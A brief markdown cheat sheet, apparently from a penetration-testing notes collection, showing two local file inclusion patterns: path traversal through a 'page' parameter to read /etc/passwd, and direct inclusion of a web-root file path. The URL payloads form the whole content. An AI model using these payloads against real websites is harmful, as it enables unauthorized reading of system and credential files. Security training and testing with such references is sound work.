 
# Exposing Sensitive Information

## LFI

LFI using Path Traversal
```Bash
<TARGET_URL>/example.php?page=<PATH_TRAVERSAL>
# Example: http://127.0.0.1/example.php?page=../../../../../../etc/passwd
```

LFI using the file's path
```Bash
<TARGET_URL>/example.php?page=<DIRECTORY_PATH>
# Example: http://127.0.01/example.php?page=/var/www/html/index.html
```
